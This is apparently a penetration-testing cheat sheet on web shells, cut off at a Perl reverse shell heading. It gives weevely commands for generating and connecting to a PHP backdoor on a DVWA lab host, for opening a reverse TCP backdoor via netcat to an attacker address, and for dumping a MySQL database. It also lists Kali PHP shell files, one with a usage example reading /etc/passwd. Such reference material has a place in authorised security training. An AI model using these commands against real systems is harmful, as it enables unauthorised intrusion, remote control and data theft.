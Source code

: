 # ⭕ Other Methods

## Web Shells

The following shells exist within Kali Linux, under /usr/share/webshells/ these are only useful if you are able to upload, inject or transfer the shell to the machine.

### weevely payloads

generate:

```
weevely generate [password] [file name].php
```

connect:

```
weevely http://192.168.56.102/dvwa/hackable/uploads/shell.php [password]
```

​run a reverse tcp backdoor from weevely shell:

```
backdoor_reversetcp -vector netcat 192.168.56.1 6969
```

dump sql database with weevely:

```
sql_dump -vector mysqldump_sh -host localhost -lpath /root/dvwa-data.txt db name] [user] [passwd]
```

### Kali PHP Web Shells

Kali PHP reverse shells and command shells:

| Command                                                                               | Description                                                                                                                                                           |
| ------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| /usr/share/webshells/php/ php-reverse-shell.php                                       | Pen Test Monkey - PHP Reverse Shell                                                                                                                                   |
| /usr/share/webshells/ php/php-findsock-shell.php /usr/share/webshells/ php/findsock.c | Pen Test Monkey, Findsock Shell. Build gcc -o findsock findsock.c (be mindfull of the target servers architecture), execute with netcat not a browser nc -v target 80 |
| /usr/share/webshells/ php/simple-backdoor.php                                         | PHP backdoor, usefull for CMD execution if upload / code injection is possible, usage: http://target.com/simple- backdoor.php?cmd=cat+/etc/passwd                     |
| /usr/share/webshells/ php/php-backdoor.php                                            | Larger PHP shell, with a text input box for command execution.                                                                                                        |

{% hint style="info" %}
The last two shells above are not reverse shells, however they can be useful for executing a reverse shell.
{% endhint %}

### Kali Perl Reverse Shell

Kali perl reverse shell:\\
